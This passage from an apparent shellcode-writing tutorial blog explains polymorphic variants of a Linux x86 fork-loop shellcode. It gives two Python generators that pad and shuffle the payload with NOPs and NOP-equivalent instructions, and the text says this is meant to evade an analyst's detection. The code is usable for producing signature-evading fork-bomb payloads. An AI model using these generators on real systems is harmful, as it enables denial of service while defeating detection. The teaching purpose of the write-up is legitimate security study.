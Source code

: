 So we can inject some NOPs in between each instructions but creating a sled,
since it would be easy for an analyst to detect.


{%highlight asm%}
def fork_nop_dope():
    init_blk =["\\x31\\xc0"];
    setup_blk=["\\xb0\\x02" ];

    n = randint(0, 3);
    init_nop_blk = ["\\x90"]*(n/3)
    setup_nop_blk = ["\\x90"]*(n*2/3)

    init_blk.extend(init_nop_blk)
    setup_blk.extend(setup_nop_blk)

    shuffle(init_blk);
    shuffle(setup_blk);

    jmp_adj = 255 - byte_len(init_blk) - byte_len(setup_blk) - 3

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80\\xeb\\x"+format(jmp_adj, '02x');


{%endhighlight%}


### Add some NOP equivalent instruction

To solve this, I used the same NOP equivalent instructions used in execve()
shellcode.

The python script used to create polymorphic versions using this strategy is
this one. A big improvement can be rewriting the JMP instruction with some jump
equivalent, maybe adding some always true condition.

{%highlight python%}
def kill_nop_super_dope():

    init_blk =["\\x31\\xc0"];
    setup_blk=["\\xb0\\x02" ];

    nop_blk=["\\x90", "\\x83\\xf8\\x$$", "\\x83\\xfb\\x??", "\\x83\\xf9\\x%%", "\\x87\\xdb", "\\x87\\xc9"]

    shuffle(nop_blk)
    n = randint(0, 10);
    init_nop_blk = nop_blk[0:(n/3)]
    shuffle(nop_blk)
    setup_nop_blk = nop_blk[0:(n*2/3)]


    init_blk.extend(init_nop_blk)
    setup_blk.extend(setup_nop_blk)

    shuffle(init_blk);
    shuffle(setup_blk);

    jmp_adj = format((255 - byte_len(init_blk) - byte_len(setup_blk) - 3), '02x')

    shellcode="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80\\xeb\\x"+jmp_adj;

    par = randint(1,255);
    shellcode=shellcode.replace("$$", str(format(par, 'x')));
    par = randint(1,255);
    shellcode=shellcode.replace("??", str(format(par, 'x')));
    par = randint(1,255);
    shellcode=shellcode.replace("%%", str(format(par, 'x')));
    return shellcode

{%endhighlight%}
